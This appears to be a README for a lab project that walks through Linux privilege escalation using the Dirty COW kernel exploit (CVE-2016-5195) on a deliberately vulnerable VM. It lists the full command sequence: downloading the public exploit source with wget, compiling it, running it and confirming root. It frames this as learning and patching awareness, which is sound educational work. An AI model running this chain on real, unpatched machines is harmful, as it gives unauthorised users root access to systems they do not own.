 # Linux Privilege Escalation (Dirty COW – CVE-2016-5195)

##  Project Overview
This project demonstrates privilege escalation on a vulnerable Linux kernel using the **Dirty COW exploit (CVE-2016-5195)**.  
By exploiting a race condition in the kernel’s memory handling, a normal user was able to escalate privileges to **root access**.  

---

##  Tools & Environment
- Vulnerable Linux VM (e.g., Metasploitable2 or custom kernel)  
- Dirty COW exploit (C source code)  
- GCC (GNU Compiler Collection)  

---

##  Steps & Methodology

 **1.Check kernel version (confirm vulnerability):**
      uname -r
 
 **2.Download Dirty COW exploit code:**
      wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c -O dirty.c
 
 **3.Compile the exploit:**
      gcc -pthread dirty.c -o dirty -lcrypt

 **4.Execute the exploit to escalate privileges:**
      ./dirty

 **5.Verify root access:**
      whoami
      id

   **Learning Outcomes**

         Practical experience in Linux privilege escalation.

         Understanding kernel-level vulnerabilities and exploitation.

         Importance of regular patching & kernel hardening to defend against such attacks.
